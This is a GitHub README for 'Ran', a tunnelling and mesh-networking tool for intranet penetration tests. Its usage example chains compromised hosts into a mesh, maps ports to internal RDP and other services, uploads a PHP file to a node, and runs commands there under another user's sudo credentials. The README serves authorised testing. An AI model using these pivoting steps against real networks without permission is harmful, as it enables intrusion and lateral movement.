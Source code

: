 # Ran: Another Network

**Cloud native** mesh networking, now introduced to intranet pentests.

## Build and Install

Pre-compiled binaries could be found on GitHub Releases.

For Mainland Chinese users, please use the [Coding.net mirror]().

### Manually build from source

1. Download `go>=1.18`,
2. Clone this repository and `make` to build the binaries from source.

## Usage

Learn usages through an example.

Assuming:

1. you are using `192.168.137.1/24`,
2. you have taken down `192.168.137.101/24`,
3. `192.168.137.101/24` also has address `192.168.56.101/24`,
4. you have taken down `192.168.56.102/24` too,
5. `192.168.56.102` also has address `10.103.10.102/24`.
6. now you want to break into `10.103.10.0/24` through `192.168.56.102/24`

Setup mesh network on the entrypoint:

```shell
# Exec on 192.168.137.101
./ran -l "rantp://0.0.0.0:10080"
```

Connect an individual endpoint to the mesh network:

```shell
# Exec on 192.168.137.102
./ran -u "rantp://192.168.137.101:10080"
```

Or ALTERNATIVELY, connect from entrypoint to that individual endpoint:

```shell
# Exec on 192.168.137.102
./ran -l "rantp://0.0.0.0:10080"
# Exec on the interactive shell later. druB is node name of `101`.
addprobe durB 192.168.137.102:10080
```

Access the mesh endpoint, interactively:

```shell
# Exec on 192.168.137.1
./ran -u "rantp://192.168.137.101:10080" -i
# Exec query without being interactive
./ran -u "rantp://192.168.137.101:10080" -c "listnodes"
```

Show nodes on the mesh network:

```shell
listnodes
```

Create tunnel mapping:

```shell
# Aagd is node name of `192.168.56.102`
addmapping zero:192.168.137.1:4321 Aagd:10.103.10.34:3389
# if ip address is 0.0.0.0 or same as node ip,
# or specified with `--listen` flag, the mapping will be reversal
addmapping zero:192.168.137.1:10050 Aagd:10.103.10.102:10050
addmapping zero:192.168.137.1:10050 Aagd::10050 --listen
```

Upload and exec command on remote node:

```shell
# Inspect node
inspect Aagd
# Upload or download files with syncfile
syncfile /tmp/ma.php Aagd:/tmp/ma.php
# Will execute with environment loaded non-login shell as "arthur"
execute "whoami" --sudo "arthur" --password "123456"
```

Use `[fe80::wtf]` if you want to conquer over IPv6.

## Protocols

By default, ran use ranTP as protocol for control plane, and
direct L4 routing for data plane.

Alternatively you can use http to wrap up both
control plane or data plane.

socks5, http/2, https, QUIC,DNS,WS+TLS will be supported in the future.

## One more thing

This framework may be robust enough to serve as a L4 service mesh in the future.

